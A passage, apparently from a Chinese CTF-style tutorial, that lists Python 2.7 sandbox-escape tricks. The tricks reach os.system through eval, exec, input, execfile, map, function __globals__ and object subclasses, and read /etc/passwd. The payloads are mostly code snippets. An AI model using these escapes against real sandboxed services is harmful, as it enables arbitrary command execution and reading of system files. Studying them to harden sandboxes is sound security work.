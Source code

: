 ```
eval: eval('import("os").system("ls")')

input: import('os').system('ls')

open,file: file('/etc/passwd').read() open('/etc/passwd').read()

exec : exec("__import__('os').system('ls')");

execfile: 加载文件进内，相当于from xx import *

execfile('/usr/lib/python2.7/os.py')  system('ls')

map　回调函数

map(os.system,['ls'])
```

### 

## trick2

`__globals__` ：该属性是函数特有的属性，记录当前文件全局变量的值，如果某个文件调用了os,sys等库，但我们只能访问该文件某个函数或者某个对象，那么我们就可以利用`__globals__`　属性访问全局的变量

```
&gt;&gt;&gt; a = lambda x:x+1
&gt;&gt;&gt; dir(a)
['__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__doc__', '__format__', '__get__', '__getattribute__', '__globals__', '__hash__', '__init__', '__module__', '__name__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'func_closure', 'func_code', 'func_defaults', 'func_dict', 'func_doc', 'func_globals', 'func_name']
&gt;&gt;&gt; a.__globals__
`{`'__builtins__': &lt;module '__builtin__' (built-in)&gt;, '__name__': '__main__', '__doc__': None, 'a': &lt;function &lt;lambda&gt; at 0x7fcd7601ccf8&gt;, '__package__': None`}`
&gt;&gt;&gt; a.func_globals
`{`'__builtins__': &lt;module '__builtin__' (built-in)&gt;, '__name__': '__main__', '__doc__': None, 'a': &lt;function &lt;lambda&gt; at 0x7f1095d72cf8&gt;, '__package__': None`}`
(lambda x:1).__globals__['__builtins__'].eval("__import__('os').system('ls')")
```

我们看到`__globals__` 是一个字典，默认有`__builtins__`对象,另外func**globals和`<em>_globals**</em>`　作用一样

在python sandbox中一般会过滤`__builtins__`内容，这样**globals**里面的`__builtins__`也就没有什么意义了,即使重新`import __builtin__` 还是一样.

#### 

## 2.1 执行系统命令

在python2.7.10里，<br>`[].class.base.subclasses()` 里面有很多库调用了我们需要的模块os

```
/usr/lib/python2.7/warning.py
58  &lt;class 'warnings.WarningMessage'&gt;
59  &lt;class 'warnings.catch_warnings'&gt;

/usr/lib/python2.7/site.py
71  &lt;class 'site._Printer'&gt;
72  &lt;class 'site._Helper'&gt;
76  &lt;class 'site.Quitter'&gt;
```
